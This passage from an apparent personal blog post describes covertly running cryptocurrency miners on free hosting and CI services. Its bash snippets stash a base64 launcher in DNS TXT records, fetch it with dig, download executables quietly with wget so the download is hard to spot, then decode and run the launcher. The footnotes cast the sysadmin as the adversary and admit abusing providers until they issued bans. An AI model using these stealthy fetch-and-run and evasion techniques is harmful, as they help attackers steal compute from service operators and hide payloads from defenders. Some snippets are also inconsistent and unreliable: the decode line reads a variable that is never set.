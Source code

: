 How do we store it? TXT records only support alphanumeric strings, no [NULs], so we have to wrap it into a non null encoding, [base64] satisfies this constraint, and because we are storing _chained_ TXT records, we have to chunk the output, since we are using shell stuff, this is done through the `-w` flag, on busybox such flag used to be absent (or opt-in) on older versions which was annoying, an alternative is to use the encoder bundled with openssl, `openssl enc -base64`.

Now that we know how to store our deployment script we store it with either [cf cli] or manually. How do we pull it? We mentioned that we need bindutils or our own `dig`...after having chosen the serving endpoint, we want to download it, what is available is usually [wget] or [curl], wget is found preinstalled much more often, however busybox only provides tls support with dynamic libraries, so you have to make sure the endpoint is serving http or your utility is `wget` from gnu-utils

```bash
# the wget command
wget -t 2 -T 10 -q -i- -O- > $filename <<< "$digurl"
```

It means try `-t2` times waiting `-T10` seconds being `-q` quiet reading from `-i-` stdin (`$digurl`) and writing to `-O-` stdout (`$filename`). This command does not reveal what we are downloading on a first glance. We are going to be very careful with other shell commands for the same reason, or sticking with shell ([bash]) built-ins where possible. Take also care about where you are downloading your executables, you want to ensure you can execute them, since some mount points, especially in containers and `tmp` paths are `noexec`.
Now that we have our dns querying tool we fetch our records

```bash
dig txt ${record}.${zone} +short +tcp +timeout=3 +retries=0 $dnsserver
```

Flags are self explanatory here, `+short` just means that we are only interested in the data itself, so that we don't have to parse the output. It's important to specify the DNS server, like google (`8.8.8.8`) or cloudflare (`1.1.1.1`) ones because many environments redirect or proxy dns queries to their own dns servers by default.
After having fetched the chunked script we deal with quotes and whitespaces to make it ready for decoding

```bash
data=${data//\"} # remove quotes
data=${data// } # remove whitespace
declare -a ar_data
for l in $data; do
    ar_data[${l:0:1}]=${l:1} # iterate over each line and remove the first characther
done
data=${ar_data[@]} # join all the lines
data=${data// } # ensure joining didn't add whitespace
# decode
launcher=$(echo "$launcher" | $b64 -d -w $chunksize)
```

What if now we _still_ don't have our launcher? DNS is messy, we want a fallback, lets setup a subdomain to fetch the launcher script directly.
Before evaluating our script we want to customize it, with some variables, again lets use a TXT record to store a NAME=VALUE list of variables and parse it. There is also a fallback for variables, cloudflare offers redirects based on URLs, these redirects are served _before_ the destination, so we don't need an endpoint, we just want to configure regex based redirect rules to a fictitious endpoint, what we are interested in are the parameters of the url `?NAME=VALUE&NAME2=VALUE2...`, so that we can parametrize our launcher simply by changing the redirect url, always with attention to quoting and escapes codes


[^adversary]: _the grumpy sysadmin_
[^infoproc]: even though this would break many privacy assumptions, I am sure most of them just peek inside whenever there is a incumbent problem, but this is only a problem for container based runtimes, whereas VMs are pretty much black boxes.
[^monerominer]: the miner built into the monero node got some work to make it more background friendly, but the distribution of xmrig was never focused on background friendliness.
[^difficulty]: some pools offer different difficulties on different connection ports, and tend to align the job difficulty to the miner submitted shares, but the granularity of the proxy was still more convenient, as it would prevent pool [lock-in] \(although we never really switched pools \).
[^configwatch]: it wasn't happy when the config suddenly appeared and disappeared from the file system
[^stratumprotocol]: We don't talk about the [stratum protocol] since we just have to deal with whatever is implemented in _both_ the pool and the miner...which is usually the bare minimum, and possibly with non standard extensions.
[^fullbash]: never go full bash :\)
[^memoryondemand]: I have not explored what happens when a processes loads additional functionality at runtime, as the kernel would look for the address in the memory layout of the executable, which would access the filesystem and possibly causing a crash.
[^freehostinglimits]: Limits are arbitrary, cpu time is less than a second, memory is less than 128M, outbound connections are blocked.
[^cpanelssh]: with a little bit of patience you can also run a full ssh instance over an environment bootstrapped around your cpanel account space, _without_ having access to the cpanel builtin SSH which tends to be disabled by hosting providers.
[^openshift]: openshift went from a 1 year free tier to 3 months to 1 month, starting to require phone authentication, I can guarantee I was not the only one abusing their services.
[^herokucontainers]: Heroku free tier containers are quite generous in resources, they provide 4c/8t (virtual) cpus, plenty of ram and large storage (which however is not persistent and discarded on dyno shutdown).
[^saddrone]: They adde muc strictier registration rules, after a couple of bans, I might have contributed to it.
[cryptocurrencies]: https://en.wikipedia.org/wiki/Cryptocurrency
[ASICS]: https://en.wikipedia.org/wiki/Application-specific_integrated_circuit
[CPU friendly coins]: \posts/a-few-notes-on-proof-of-work
[miner]: https://github.com/xmrig/xmrig
[another miner]: https://github.com/Bendr0id/xmrigCC
[proxy]: https://github.com/Bendr0id/xmrigcc-proxy
[tunnel]: https://github.com/search?q=tunnel
[somebody]: https://twitter.com/sarahjamielewis
[lost bets]: https://web.archive.org/web/https://twitter.com/SarahJamieLewis/status/1185724467776851968
[DNS]: https://en.wikipedia.org/wiki/Domain_Name_System
[dos]: https://en.wikipedia.org/wiki/Denial-of-service_attack
[dig]: https://web.archive.org/web/20201107155737/https://downloads.isc.org/isc/bind9/
[TXT]: https://en.wikipedia.org/wiki/TXT_record
[statically linked]: https://en.wikipedia.org/wiki/Standalone_program
[recommended]: https://www.ietf.org/rfc/rfc6763.txt
[cloudflare]: https://www.cloudflare.com/
[freedns]: https://freedns.afraid.org/
[used to]: https://web.archive.org/save/https://community.cloudflare.com/t/was-there-a-reduction-in-maximum-txt-size
[NULs]: https://en.wikipedia.org/wiki/Null_character
[base64]: https://en.wikipedia.org/wiki/Base64
[curl]: https://curl.se/
[wget]: https://www.gnu.org/software/wget/
[bash]: https://en.wikipedia.org/wiki/Bash_%28Unix_shell%29
[cf cli]: https://web.archive.org/web/20210305071742/https://github.com/cloudflare/cloudflare-go/blob/master/cmd/flarectl/README.md
[trampoline]: https://en.wikipedia.org/wiki/Trampoline_(computing)
[container]: https://en.wikipedia.org/wiki/OS-level_virtualization
[here]: \assets/posts/bash_functions.txt
[IPC]: https://en.wikipedia.org/wiki/Inter-process_communication
[ulimits]: https://web.archive.org/web/https://linux.die.net/man/5/limits.conf
[ipinfo]: https://ipinfo.io/
[geoip.json]: \assets/posts/geoip.json
[technical debt]: https://en.wikipedia.org/wiki/Technical_debt
[state machine]: https://en.wikipedia.org/wiki/Finite-state_machine
[proxychains]: https://web.archive.org/web/20210121093409/https://github.com/haad/proxychains
[forward tunnel]: https://web.archive.org/web/20210315094551/https://github.com/ginuerzh/gost
[mining proxy]: https://web.archive.org/web/20201207221231/https://github.com/Snipa22/xmr-node-proxy
[lock-in]: https://en.wikipedia.org/wiki/Vendor_lock-in
[stratum protocol]: https://en.bitcoin.it/wiki/Stratum_mining_protocol
[cdn]: https://en.wikipedia.org/wiki/Content_delivery_network
[aup]: https://en.wikipedia.org/wiki/Acceptable_use_policy
[cpanel]: https://en.wikipedia.org/wiki/CPanel
[cgi]: https://en.wikipedia.org/wiki/Common_Gateway_Interface
[Cloud9]: https://aws.amazon.com/cloud9
[Codeanywhere]: https://web.archive.org/web/20210314172852/https://codeanywhere.com/
[Puppeteer]: https://web.archive.org/web/20210318213139/https://developers.google.com/web/tools/puppeteer
[Openshift]: https://www.openshift.com/
[Heroku]: https://www.heroku.com/
[Bitrise]: https://web.archive.org/web/20210222050951/https://www.bitrise.io/
[Continuousphp]: https://web.archive.org/web/20210310010750/https://continuousphp.com/
[Travis]: https://web.archive.org/web/20210324163536/https://travis-ci.org/
[Semaphore]: https://web.archive.org/web/20210308041527/https://semaphoreci.com/
[Wercker]: https://web.archive.org/web/20210308202144/https://app.wercker.com/
[Buddy]: https://web.archive.org/web/20210322133805/https://buddy.works/
[Drone]: https://web.archive.org/web/20210327045555/https://cloud.drone.io/welcome
[Codeship]: https://web.archive.org/web/20210322100629/https://www.cloudbees.com/products/codeship
[Docker-hub]: https://web.archive.org/web/20210322105637/https://hub.docker.com/
[Semaphore]: https://web.archive.org/web/20210308041527/https://semaphoreci.com/
[CI]: https://en.wikipedia.org/wiki/Continuous_integration